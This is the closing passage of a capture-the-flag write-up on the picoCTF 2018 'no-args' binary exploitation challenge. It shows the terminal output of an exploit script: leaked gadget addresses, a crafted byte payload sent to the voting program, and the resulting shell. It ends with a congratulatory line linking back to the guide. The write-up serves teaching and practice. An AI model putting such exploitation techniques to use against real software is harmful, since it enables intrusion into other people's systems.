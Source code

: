 ```
> Vote for your Favorite Problems from picoCTF 2018!
WROTE FREE GADGET ADDR: 0x7F98CA34E26A
WROTE MALLOC GADGET ADDR: 0x7F98CA328B5A (calls free)
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
2

n
List Problems? (y/n) Which Problem do you want to vote for?
choose
> You can't choose choose because that was last year's master pwn, NO arguments! Would you like to vote for this year's instead?
b'yes\x00                            \x10 `\x00\x00\x00\x00\x00\xff'
> Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
1

Enter the Name of the Problem you want to Vote for
>
pwn

[*] Switching to interactive mode
$ ls
libc.so.6   no-args noargs_pwn.py no-args.c
$ exit
```
{:.contains-term}

</div>
    </div>
  </div>
</div>

**Boom**! *Good job*, you've now completed every binary exploit challenge in PicoCTF 2018! Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to review any you may have missed along the way.
